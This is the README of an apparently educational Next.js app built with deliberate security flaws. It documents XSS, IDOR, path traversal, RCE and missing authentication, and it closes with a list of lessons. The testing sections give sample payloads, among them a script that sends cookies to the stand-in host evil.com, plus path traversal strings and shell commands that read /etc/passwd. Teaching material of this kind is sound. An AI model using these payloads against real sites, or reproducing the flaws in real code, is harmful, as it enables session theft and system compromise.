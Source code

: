 # TaskMaster Pro - Intentionally Vulnerable Productivity App

⚠️ **WARNING: This application contains INTENTIONAL security vulnerabilities for educational purposes. DO NOT deploy to production or any public environment!**

## Overview

TaskMaster Pro is a Next.js productivity application that demonstrates common security vulnerabilities often found in AI-generated code. This app serves as an educational tool to understand what NOT to do when building web applications.

## Getting Started

```bash
npm install
npm run dev
```

Visit `http://localhost:3000` to access the application.

## Demo Credentials

- **Admin**: username: `admin`, password: `password`
- **User**: username: `user`, password: `123456`
- **Guest**: username: `guest`, password: `guest`

## Intentional Security Vulnerabilities

### 1. **Cross-Site Scripting (XSS)**
- **Location**: Task titles, descriptions, comments, search functionality
- **Example**: Try creating a task with title: `<script>alert('XSS')</script>`
- **Impact**: Can steal user sessions, redirect users, modify page content

### 2. **Insecure Session Management**
- **Issues**:
  - Weak, predictable token generation
  - Tokens stored in localStorage (not httpOnly cookies)
  - No token expiration or rotation
  - Session data exposed in client-side code
- **Location**: `/api/auth/login`, client-side storage
- **Impact**: Session hijacking, token prediction attacks

### 3. **Insecure Direct Object References (IDOR)**
- **Location**: `/profile` page, `/api/auth/user/[id]`
- **Example**: Change User ID to access any user's profile data
- **Impact**: Unauthorized access to sensitive user information including SSNs

### 4. **Path Traversal & Unrestricted File Upload**
- **Location**: `/upload` page, `/api/upload`, `/api/files/*`
- **Examples**:
  - Upload path: `../../../etc/passwd`
  - Filename: `../../../app/layout.tsx`
- **Impact**: Read/write arbitrary files, potential remote code execution

### 5. **Remote Code Execution (RCE)**
- **Location**: `/admin` page, `/api/admin/execute`
- **Example**: Execute system commands like `whoami`, `ls`, `cat /etc/passwd`
- **Impact**: Complete system compromise

### 6. **Missing Authentication & Authorization**
- **Issues**:
  - Admin panel accessible without proper role checking
  - API endpoints without authentication
  - No rate limiting or brute force protection
- **Impact**: Unauthorized access to administrative functions

### 7. **Information Disclosure**
- **Issues**:
  - Hardcoded API keys in frontend code
  - Detailed error messages exposing system information
  - Debug information in production
  - Sensitive data in API responses
- **Locations**: Page source, API error responses, logs

### 8. **Missing Security Headers**
- **Issues**:
  - No Content Security Policy (CSP)
  - No X-Frame-Options
  - No security headers in responses
- **Impact**: Clickjacking, XSS attacks

### 9. **Insecure File Operations**
- **Issues**:
  - File deletion via GET requests
  - No file type restrictions
  - Arbitrary file system access
- **Location**: File management functionality

### 10. **SQL Injection Potential**
- While this demo doesn't use a real database, the code patterns show vulnerability to SQL injection in database queries

## Educational Testing Scenarios

### XSS Testing
1. Create a task with title: `<img src=x onerror=alert('XSS')>`
2. Add a comment with: `<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>`
3. Search for: `<svg onload=alert('Search XSS')>`

### IDOR Testing
1. Log in as any user
2. Go to Profile page
3. Change the User ID field to access other users' data (try IDs 1-5)

### Path Traversal Testing
1. Upload a file with path: `../../../etc/passwd`
2. Try to download: `/api/files/download?file=../../../etc/passwd`
3. Upload with filename: `../../../malicious.php`

### RCE Testing (Admin Panel)
1. Access `/admin` (no real authentication required)
2. Execute commands:
   - `whoami` (current user)
   - `ls -la` (list files)
   - `cat /etc/passwd` (system users)
   - `ps aux` (running processes)

## File Structure

```
app/
├── layout.tsx                 # Hardcoded secrets, missing security headers
├── page.tsx                   # XSS in error messages, insecure session
├── tasks/page.tsx             # XSS vulnerabilities
├── upload/page.tsx            # Path traversal interface
├── profile/page.tsx           # IDOR vulnerabilities
├── admin/page.tsx             # Unauthorized access, RCE interface
└── api/
    ├── auth/
    │   ├── login/route.ts     # Insecure authentication
    │   └── user/[id]/route.ts # IDOR, information disclosure
    ├── tasks/                 # XSS, missing authentication
    ├── upload/route.ts        # Path traversal, unrestricted upload  
    ├── files/                 # Arbitrary file access
    └── admin/                 # RCE, information disclosure
```

## What NOT to Do (Lessons Learned)

1. **Never store sensitive data in localStorage**
2. **Always sanitize user input before rendering**
3. **Implement proper authentication and authorization**
4. **Validate and sanitize file uploads**
5. **Never execute user input as system commands**
6. **Use security headers and CSP**
7. **Don't expose detailed error messages**
8. **Implement rate limiting and input validation**
9. **Follow the principle of least privilege**
10. **Never hardcode secrets in client-side code**

## Disclaimer

This application is created solely for educational purposes to demonstrate common security vulnerabilities. It should never be deployed in a production environment or made accessible over the internet. The vulnerabilities are intentionally obvious and well-documented to aid in learning about web application security.

## Security Best Practices

For building secure applications, consider:
- Using established authentication libraries
- Implementing proper input validation and sanitization
- Following OWASP security guidelines
- Regular security audits and penetration testing
- Keeping dependencies updated
- Using security headers and CSP
- Implementing proper logging and monitoring

---

**Remember: With great power comes great responsibility. Use this knowledge to build more secure applications! 🔒**